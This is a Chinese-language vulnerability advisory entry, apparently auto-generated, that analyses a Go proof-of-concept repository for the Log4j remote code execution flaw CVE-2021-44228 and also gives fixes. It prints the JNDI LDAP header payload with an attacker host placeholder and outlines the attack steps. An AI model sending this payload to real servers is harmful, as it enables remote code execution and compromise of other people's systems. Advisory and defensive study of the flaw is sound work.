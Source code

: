 
### CVE-2021-44228 - Log4j RCE PoC

#### 📌 漏洞信息

| 属性 | 详情 |
|------|------|
| CVE编号 | CVE-2021-44228 |
| 风险等级 | `CRITICAL` |
| 利用状态 | `POC可用` |
| 发布时间 | 2025-08-04 00:00:00 |
| 最后更新 | 2025-08-04 00:23:44 |

#### 📦 相关仓库

- [CVE-2021-44228](https://github.com/Sorrence/CVE-2021-44228)

#### 💡 分析概述

该项目是一个针对CVE-2021-44228 Log4j漏洞的PoC，使用Go语言编写。仓库提供了PoC代码、README文档和LICENSE文件。PoC通过构造特定的HTTP头，向目标服务器发送JNDI LDAP请求，触发Log4j漏洞，实现远程代码执行。 整体来看，项目目标明确，功能单一，重点在于验证Log4j漏洞的可利用性。 提交内容分析： 1. 移除video.mkv文件：该文件似乎无关紧要，移除不会影响PoC的运行。 2. 更新README.md文件：增加了免责声明，更详细的描述了漏洞利用方法和使用说明，包括编译、运行命令，以及Docker环境下的测试案例。 3. 添加初始的Log4Shell PoC exploit代码(poc.go)：该文件是核心代码，实现了漏洞利用逻辑。代码通过设置HTTP请求头中的X-Api-Version字段来注入JNDI Payload。 4. 添加LICENSE文件：说明了软件的使用许可。 5. 初始提交：项目初始状态。 漏洞分析： 该PoC利用Log4j漏洞，通过在HTTP请求头中注入包含JNDI LDAP payload，进而触发远程代码执行。 漏洞利用方式： 1. 构造HTTP请求，在请求头中设置X-Api-Version: ${jndi:ldap://<lhost>:1389/a}。 2. 攻击者监听1389端口，当目标服务器解析请求头时，会向攻击者的服务器发起LDAP请求。 3. 攻击者控制LDAP服务器返回恶意代码，从而在目标服务器上执行任意代码。

#### 🔍 关键发现

| 序号 | 发现内容 |
|------|----------|
| 1 | 针对Apache Log4j2的远程代码执行漏洞(CVE-2021-44228) |
| 2 | PoC 通过构造特定的 HTTP 请求头触发漏洞 |
| 3 | PoC 提供了清晰的利用方法和示例 |
| 4 | PoC 包含完整的代码实现 |
| 5 | 影响广泛使用的 Java 应用 |

#### 🛠️ 技术细节

> 漏洞原理：Log4j2在处理日志时，如果日志内容包含JNDI表达式，会进行解析。攻击者构造恶意日志内容，通过JNDI注入，从LDAP服务器加载恶意Java类，从而执行任意代码。

> 利用方法：PoC构造HTTP请求，在请求头中设置包含JNDI payload的字段，例如X-Api-Version。当目标服务器使用Log4j2记录该请求头时，会触发漏洞。

> 修复方案：升级Log4j2到安全版本；禁用JNDI功能；配置防火墙限制对外的LDAP访问。


#### 🎯 受影响组件
